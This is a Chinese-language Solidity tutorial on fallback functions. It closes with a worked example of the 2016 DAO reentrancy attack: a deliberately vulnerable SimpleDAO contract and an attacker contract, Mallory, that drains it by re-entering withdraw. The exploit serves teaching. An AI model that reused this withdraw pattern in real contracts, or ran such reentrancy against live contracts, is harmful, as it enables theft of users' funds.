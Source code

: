 # `fallback` 函数

一份合约可以有一个无名函数。该函数不能接收参数，也不能有返回。当调用合约时，如果没有函数与给定的函数签名匹配（或者根本没有指定），就执行`fallback`函数。

此外，只要合约收到以太币（无数据），就执行该函数。为了接收以太币，`fallback`函数必须标记为`payable`。

在最坏情况下，`fallback`函数只能依赖2300 gas，除了基本的日志记录外，几乎没有机会执行其他操作。以下操作将消耗多于2300 gas：

* 写存储
* 创建合约
* 调用消耗大量gas的外部函数
* 发送以太币

与其他函数类似，只要有足够的gas，`fallback`函数就可以执行复杂的操作。

**注**：即使`fallback`函数不能传入参数，仍然可以使用`msg.data`检索任何调用提供的负载。

```solidity
pragma solidity ^0.4.0;

contract Test {
    function() public { x = 1; }
    uint x;
}

contract Sink {
    function() public payable { }
}

contract Caller {
    function callTest(Test test) public {
        test.call(0xabcdef01);
    }
}
```

所有调用`Test`合约的交易都会触发`fallback`函数。向该合约发送以太币会引起一场，因为`fallback`函数没有修饰字`payable`。

`Sink`合约将所有发送给它的以太币存入合约地址，无法取回。

如果`call`的哈希值不存在，`test.x`被赋值为1。

## DAO攻击

DAO是合约实现的众筹平台，在2016年6月18日被攻击前筹集了$150M。区块链硬分叉宣布攻击中的交易无效前，攻击者设法控制了$60M。

我们编写与原始DAO具有相同脆弱点的简化的`SimpleDAO`。

```solidity
pragma solidity ^0.3.1;

contract SimpleDAO {
  mapping (address => uint) public credit;
    
  function donate(address to) {
    credit[to] += msg.value;
  }
    
  function withdraw(uint amount) {
    if (credit[msg.sender]>= amount) {
      msg.sender.call.value(amount)();
      credit[msg.sender]-=amount;
    }
  }  

  function queryCredit(address to) returns (uint){
    return credit[to];
  }
}
```

`SimpleDAO`允许参与者`donate`基金合约；`withdraw`基金。

合约`Mallory`是利用脆弱点的攻击。与真实使用在DAO上的攻击相似，`Mallory`允许攻击者从`SimpleDAO`中窃取所有的以太币。

首先，部署`Mallory`，构造时传入DAO的地址。

```
pragma solidity ^0.3.1;

contract Mallory {
  SimpleDAO public dao;
  address owner;

  function Mallory(SimpleDAO addr){ 
    owner = msg.sender;
    dao = addr;
  }
  
  function getJackpot() { 
    owner.send(this.balance); 
  }

  function() payable { 
    dao.withdraw(dao.queryCredit(this)); 
  }
}
```

然后，攻击者向`Mallory` `donate`以太币。等待他人增加DAO的余额。

最后，调用`Mallory`的`fallback`函数来清空DAO。`fallback`函数调用`withdraw`，将以太币发送给`Mallory`。合约中的`call`调用`Mallory`的`fallback`，恶意地再次调用`withdraw`。由于`withdraw`在更新`credit`域前中断了，所以余额检查再次成功。因此，DAO第二次向`Mallory`发送以太币，并再次调用`fallback`，导致循环，直到：1)gas耗尽；2)栈满；3)DAO的余额归零。


